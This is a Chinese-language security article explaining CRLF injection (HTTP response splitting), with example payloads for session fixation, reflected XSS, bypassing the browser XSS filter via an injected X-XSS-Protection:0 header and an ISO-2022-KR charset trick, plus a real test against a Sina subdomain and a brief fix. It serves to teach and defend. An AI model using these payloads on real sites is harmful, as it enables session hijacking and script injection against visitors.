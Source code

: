# CRLF Injection漏洞的利用与实例分析

0x00 背景
-------

* * *

CRLF Injection很少遇见，这次被我逮住了。我看zone中（[http://zone.wooyun.org/content/13323](http://zone.wooyun.org/content/13323)）还有一些同学对于这个漏洞不甚了解，甚至分不清它与CSRF，我详细说一下吧。

CRLF是”回车 + 换行”（\r\n）的简称。在HTTP协议中，HTTP Header与HTTP Body是用两个CRLF分隔的，浏览器就是根据这两个CRLF来取出HTTP 内容并显示出来。所以，一旦我们能够控制HTTP 消息头中的字符，注入一些恶意的换行，这样我们就能注入一些会话Cookie或者HTML代码，所以CRLF Injection又叫HTTP Response Splitting，简称HRS。

HRS是比XSS危害更大的安全问题，具体是为什么，我们往下看。

对于HRS最简单的利用方式是注入两个\r\n，之后在写入XSS代码，来构造一个xss。

0x01 实例
-------

* * *

举个例子，一般网站会在HTTP头中用Location: http://baidu.com这种方式来进行302跳转，所以我们能控制的内容就是Location:后面的XXX某个网址。

所以一个正常的302跳转包是这样：

```
HTTP/1.1 302 Moved Temporarily 
Date: Fri, 27 Jun 2014 17:52:17 GMT 
Content-Type: text/html 
Content-Length: 154 
Connection: close 
Location: http://www.sina.com.cn

```

但如果我们输入的是

```
http://www.sina.com.cn%0aSet-cookie:JSPSESSID%3Dwooyun

```

注入了一个换行，此时的返回包就会变成这样： 

```
HTTP/1.1 302 Moved Temporarily 
Date: Fri, 27 Jun 2014 17:52:17 GMT 
Content-Type: text/html 
Content-Length: 154 
Connection: close 
Location: http://www.sina.com.cn 
Set-cookie: JSPSESSID=wooyun

```

这个时候这样我们就给访问者设置了一个SESSION，造成一个“会话固定漏洞”。

当然，HRS并不仅限于会话固定，通过注入两个CRLF就能造成一个无视浏览器Filter的反射型XSS。

比如一个网站接受url参数http://test.sina.com.cn/?url=xxx，xxx放在Location后面作为一个跳转。如果我们输入的是

```
http://test.sina.com.cn/?url=%0d%0a%0d%0a<img src=1 onerror=alert(/xss/)>

```

我们的返回包就会变成这样：

```
HTTP/1.1 302 Moved Temporarily 
Date: Fri, 27 Jun 2014 17:52:17 GMT 
Content-Type: text/html 
Content-Length: 154 
Connection: close 
Location:
<img src=1 onerror=alert(/xss/)>

```

之前说了浏览器会根据第一个CRLF把HTTP包分成头和体，然后将体显示出来。于是我们这里这个标签就会显示出来，造成一个XSS。

为什么说是无视浏览器filter的，这里涉及到另一个问题。

浏览器的Filter是浏览器应对一些反射型XSS做的保护策略，当url中含有XSS相关特征的时候就会过滤掉不显示在页面中，所以不能触发XSS。

怎样才能关掉filter？一般来说用户这边是不行的，只有数据包中http头含有X-XSS-Protection并且值为0的时候，浏览器才不会开启filter。

说到这里应该就很清楚了，HRS不正是注入HTTP头的一个漏洞吗，我们可以将X-XSS-Protection:0注入到数据包中，再用两个CRLF来注入XSS代码，这样就成功地绕过了浏览器filter，并且执行我们的反射型XSS。

所以说HRS的危害大于XSS，因为它能绕过一般XSS所绕不过的filter，并能产生会话固定漏洞。

* * *

我们来一个真实案例吧。 新浪某分站含有一个url跳转漏洞，危害并不大，于是我就想到了CRLF Injection，当我测试

```
http://xxx.sina.com.cn/?url=%0a%0d%0a%0d%3Cimg%20src=1%3E

```

的时候，发现图片已经输出在页面中了，说明CRLF注入成功了：

![2014062816583715642.jpg](http://drops.javaweb.org/uploads/images/7456fff1f868bff8498ad08cee25178977b238c0.jpg)

那么我们试试XSS看看：

![2014062816585822978.jpg](http://drops.javaweb.org/uploads/images/3ffcb0c5cf11c9bbefdc2f6f58000a40f57cacf9.jpg)

看控制台，果然被XSS Filter拦截了。

那么我们就注入一个

```
X-XSS-Protection:0

```

到数据包中，看看什么效果：

![2014062816593849016.jpg](http://drops.javaweb.org/uploads/images/16fd9065fab777b966767556819c6e73d92226fd.jpg)

@mramydnei 还想到了一个利用字符编码来绕过XSS Filter的方法，当编码是is-2022-kr时浏览器会忽略%0f，这样我们在onerror后面加个%0f就能绕过filter，前提是注入一个

```
<meta charset=ISO-2022-KR> 

```

![2014062817010832293.jpg](http://drops.javaweb.org/uploads/images/809f97bf0d57220a3f026f6285aa5207813f1b03.jpg)

当然，在Location:这里注入只有webkit内核浏览器才能够利用，其他浏览器可能会跳转、出错。不过对于chrome的使用量来说，危害已经足够了。

0x02 修复
-------

* * *

如何修复HRS漏洞，当然是过滤\r 、\n之类的换行符，避免输入的数据污染到其他HTTP头。